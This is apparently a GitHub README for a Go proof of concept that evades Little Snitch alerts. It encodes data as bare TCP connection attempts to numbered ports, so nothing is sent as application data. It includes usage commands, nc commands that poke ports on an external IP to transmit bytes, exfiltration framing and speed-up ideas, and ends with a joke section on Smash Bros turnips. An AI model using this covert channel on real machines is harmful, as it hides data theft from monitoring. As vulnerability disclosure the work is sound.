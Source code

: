 # little-stitch
Send and receive bypassing Little Snitch alerting.


## Stitch Face

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Underlying Issue

Little Snitch does not actually trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons Little Snitch alerting seems to be inconsistant when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which appears to be more
reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data we want to encode our data, into attributes of the connection which are settable by an
underprivileged user client-side, and will be readable on the same connection server-side.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

The transfer speed in this PoC is not terribly fast, based on observations it appears to be able to upload at about a 16 bit/s
and download at about 8 bit/s. It's worth pointing out that this PoC has not been optimized at all and is just running the
simplest thing that will work, it should be possible to increase this number by many fold. Some optimizations that might help
here is using the source port to encode data in addition to the destination port, parallelizing some off the transfer would
likely help quite a bit as well. Currently the majority of time is spent waiting on TCP connections to close, because everything
is run serialized this ends up slowing things down quite a bit. There's also likely other attributes of the connection that could
be used to store data, the urgent bit as an example (I suspect several others I'm not thinking of as well). So this is slow right
now, but I wouldn't rely on that.

## What's with the little-stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is the rarest
turnip with only a 1.711% chance of appearing with each pull and packs quite a punch at 34% damage. Noob Turnip Tip: after you throw it and it
hit's your opponant try recatching it by jumping and pressing Z when the turnip bounces back and passess through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Propability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |
